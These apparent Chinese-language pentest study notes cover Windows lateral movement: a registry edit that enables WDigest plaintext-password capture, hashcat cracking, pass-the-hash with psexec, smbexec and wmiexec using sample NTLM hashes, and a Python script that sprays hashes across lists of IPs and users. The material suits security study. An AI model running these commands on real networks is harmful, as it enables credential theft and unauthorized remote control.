








> #知识点1
>
> Win2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码
>
> Windows2012以下版本如安装KB2871997补丁,同样也会导致无法获取明文密码,针对以上情况,提供了4中方式解决此类问题
>
> 1.利用哈希hash传递(pth,ptk等)进行移动
>
> 2.利用其它服务协议(SMB,WMI等)进行哈希移动
>
> 3.利用注册表操作开启Wdigest Auth值进行获取
>
> 4.利用工具或第三方平台(Hachcat)进行破解获取
>
> \#知识点2：
>
> Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。
>
> \#注册表修改
>
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
>
> 
>
> hashcat -a 0 -m 1000 hash file --force //爆破哈希的软件
>
> 



## SMB服务利用-psexec&smbexec

```powershell
SMB服务可以通过明文或hash传递来远程执行,条件445端口开放 
//需要下载官方工具pstool,进入pstool目录
#psexec第一种：先有ipc链接，psexec需要明文或hash传递

net use \\192.168.10.3\ipc$ "123.com" /user:administrator

psexec \\192.168.10.1 -s cmd # 需要先有ipc链接 -s以System权限运行
```

## 

拒绝访问,以管理员权限执行cmd



```powershell
#psexec第二种：不用建立IPC直接提供明文账户密码

psexec \\192.168.10.3 -u administrator -p 123.COM -s cmd 

psexec -hashes :$HASH$ ./administrator@192.168.10.3

psexec -hashes :$HASH$ domain/administrator@192.168.10.3

psexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.10.3 //官方Pstools无法采用hash连接,需要借助impacket,操作简单,但是容易被杀
```



```powershell
#smbexec无需先ipc链接 明文或hash传递

smbexec yu/administrator:uio123,.@192.168.10.3

smbexec ./administrator:123.com@192.168.10.3

smbexec -hashes :$HASH$ ./admin@192.168.10.3

smbbexec -hashes :$HASH$ domain/admin@192.168.10.3

smbexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.10.3

smbexec -hashes :ccef208c6485269c20db2cad21734fe7 yu/administrator@192.168.10.1
```



## WMI服务利用-cscript,wmiexec,wmic

```php
WMI(Windows Management Instrumentation) 是通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

#自带命令WMIC 明文传递 无回显
    wmic /node:192.168.10.3 /user:win7\administrator /password:123.com process call create "cmd.exe /c  ipconfig >C:\1.txt"

#自带cscript明文传递 有回显

cscript //Nologo wmiexec.vbs /shell 192.168.10.3 win7\administrator 123.COM

#套件impacket wmiexec 明文或hash传递 有回显exe版本

wmiexec ./administrator:123.com@192.168.10.3 "whoami"
yu
wmiexec yu/administrator:uio123,.@192.168.10.3 "whoami"

wmiexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.3.32 "whoami"

wmiexec -hashes :afffeba176210fad4628f0524bfe1942 yu/administrator@192.168.10.3 "whoami"
```





执行成功,注意这个命令是无回显的,并且普通用户权限就行。

第二种可以直接获得一个shell,但是需要下载[wmiexec.vbs](https://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)文件,这里我把他当到了tom文件夹下



## 批量打

```python
#pyinstaller.exe -F fuck_neiwang_002.py

import os,time

ips={

'192.168.3.21',

'192.168.3.25',

'192.168.3.29',

'192.168.3.30',

'192.168.3.32'

}

users={

'Administrator',

'boss',

'dbadmin',

'fileadmin',

'mack',

'mary',

'webadmin'

}

hashs={

'ccef208c6485269c20db2cad21734fe7',

'518b98ad4178a53695dc997aa02d455c'

}

 

for ip in ips:

for user in users:

for mimahash in hashs:

\#wmiexec -hashes :hash god/user@ip whoami

exec = "wmiexec -hashes :"+mimahash+" god/"+user+"@"+ip+" whoami"

print('--->' + exec + '<---')

os.system(exec)

time.sleep(0.5)
```


